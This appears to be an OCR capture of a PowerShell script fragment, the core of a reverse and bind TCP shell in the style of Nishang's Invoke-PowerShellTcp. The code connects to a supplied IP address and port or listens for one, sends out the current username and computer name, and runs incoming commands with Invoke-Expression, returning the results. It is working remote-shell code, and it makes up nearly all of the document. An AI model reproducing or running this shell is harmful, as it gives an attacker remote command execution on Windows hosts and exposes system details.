 ```powershell
    {
        #Connect back if the reverse switch is used.
        if ($Reverse)
        {
            $client = New-Object System.Net.Sockets.TCPClient($IPAddress,$Port)
        }

        #Bind to the provided port if Bind switch is used.
        if ($Bind)
        {
            $listener = [System.Net.Sockets.TcpListener]$Port
            $listener.start()    
            $client = $listener.AcceptTcpClient()
        } 

        $stream = $client.GetStream()
        [byte[]]$bytes = 0..65535|%{0}

        #Send back current username and computername
        $sendbytes = ([text.encoding]::ASCII).GetBytes("Windows PowerShell running as user " + $env:username + " on " + $env:computername + "`nCopyright (C) 2015 Microsoft Corporation. All rights reserved.`n`n")
        $stream.Write($sendbytes,0,$sendbytes.Length)

        #Show an interactive PowerShell prompt
        $sendbytes = ([text.encoding]::ASCII).GetBytes('PS ' + (Get-Location).Path + '>')
        $stream.Write($sendbytes,0,$sendbytes.Length)

        while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
        {
            $EncodedText = New-Object -TypeName System.Text.ASCIIEncoding
            $data = $EncodedText.GetString($bytes,0, $i)
            try
            {
                #Execute the command on the target.
                $sendback = (Invoke-Expression -Command $data 2>&1 | Out-String )
            }
            catch
            {
                Write-Warning "Something went wrong with execution of command on the target." 
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()  
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
```
